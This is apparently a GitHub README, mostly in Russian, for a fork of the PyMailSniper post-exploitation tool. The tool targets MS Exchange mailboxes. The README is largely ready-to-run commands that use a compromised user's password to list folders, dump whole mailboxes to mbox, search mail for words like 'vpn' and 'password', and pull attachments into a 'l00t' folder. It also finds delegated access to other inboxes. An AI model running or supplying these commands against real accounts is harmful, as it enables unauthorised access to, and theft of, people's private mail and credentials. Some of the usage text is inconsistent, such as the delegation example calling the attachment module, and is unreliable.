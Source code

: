 # Инфо

За основу взят проект от foofus-sph1nx - https://github.com/foofus-sph1nx/PyMailSniper

**TOOL IS UNDER DEVELOPMENT**

**A LOT OF BUGS MAY APPEAR**

**ONLY FOLDER LISTING AND DUMPING IS STABLE RIGHT NOW**
# Что и зачем

Во время пентестов, компрометируя пользователя, никогда не будет лишним изучить его почту, 
но сделать это не всегда просто - трудности возникают при отсутствие GUI, пробрасывании портов и т.п.
Этот форк призван облегчить жизнь пентестерам и прочим личностям, максимально упростив исследование почтовых ящиков на основе MS Exchange.

Создается на основе Exchangelib - (https://github.com/ecederstrand/exchangelib)

PS:
Я не про кодер, пишу в первую очередь для себя, исправления и пожелания приветствуются)

# В чем отличия от оригинала
1) Выкачивание папок и писем в файлы формата mbox
2) Нормальный листинг папок
3) Многопоточность
4) tqdm


# Usage

1. Main Help
   
   ```bash
   python3 pymailsniper.py -h
   
   usage: python3 pymailsniper.py module [options]

   optional arguments:
     -h, --help            show this help message and exit

   Modules:
     available modules

     {folders,attachment,delegation,emails}
       folders             List Mailbox Folders
       attachment          List/Download Attachments
       delegation          Find where compromised user has access
       emails              Search for Emails

   ```

2. folders module help (Просмотр Папок)
   ```bash
   usage: python3 pymailsniper.py module [options] folders [-h] [-s SERVER]
                                                        [-e EMAIL]
                                                        [-p PASSWORD] [-a]
                                                        [-c]

   optional arguments:
     -h, --help            show this help message and exit
     -s SERVER, --remote-server SERVER
                           EWS URL for Mail Server
     -e EMAIL, --email EMAIL
                           Email address of compromised user
     -p PASSWORD, --password PASSWORD
                           Password of compromised user
     -a, --absolute        Print folders absolute paths instead tree if arg is present
     -c, --count           Print count of child folders and email if present
     -r, --root            Use "root" folder as root for printing insted of "Top Information Store"

   ```
   Вывести список папок в виде дерева - 
    ```bash
    python3 pymailsniper.py folders -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок в виде дерева с указанием кол-ва дочерних папок и писем - 
    ```bash
    python3 pymailsniper.py folders -c -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок (абсолютные пути) - 
    ```bash
    python3 pymailsniper.py folders -a -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок (абсолютные пути) с указанием кол-ва дочерних папок и писем - 
    ```bash
    python3 pymailsniper.py folders -a -c -s outlook.office365.com -e xyz@domain.com -p Password1
    ```

3. Dump module help (Скачиваем папки с письмами в mbox файлы)

   ```bash
   usage: python3 pymailsniper.py module [options] dump [-h] [-s SERVER]
                                                     [-e EMAIL] [-p PASSWORD]
                                                     [-d DUMP_FOLDER]
                                                     folder

   positional arguments:
     folder                Folder to dump

   optional arguments:
     -h, --help            show this help message and exit
     -s SERVER, --remote-server SERVER
                           EWS URL for Mail Server
     -e EMAIL, --email EMAIL
                           Email address of compromised user
     -p PASSWORD, --password PASSWORD
                           Password of compromised user
     -d DUMP_FOLDER, --dump-folder DUMP_FOLDER
                           Local folder to store .mbox dumps
   ```

   Скачать вообще все в папку dump(очень долго, не советую, посмотрю в сторону многопоточности) - 
    ```bash
    python3 pymailsniper.py dump all -d ./dump -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
    Скачать папку "secrets" в папку "qweqwe" - 
    ```bash
    python3 pymailsniper.py dump secrets -d ./qweqwe -s outlook.office365.com -e xyz@domain.com -p Password1
    ```

3. Exfiltrate emails (Еще не смотрел)

   ```bash
    python3 pymailsniper.py emails -s outlook.office365.com -e xyz@domain.com -p Password1 -t vpn,remote,password --field subject -c 100 -o emails.txt
   ```

4. List and/or Download attachments (Еще не смотрел)

   ```bash
    python3 pymailsniper.py attachment -s outlook.office365.com -e xyz@domain.com -p Password1 -t vpn,remote,password --field subject -c 100 -d l00t
   ```

5. Check if compromised account has delegated rights to any other inboxes (Еще не смотрел)

   ```bash
    python3 pymailsniper.py attachment -s outlook.office365.com -e xyz@domain.com -p Password1 -g list-of-emails.txt
   ```

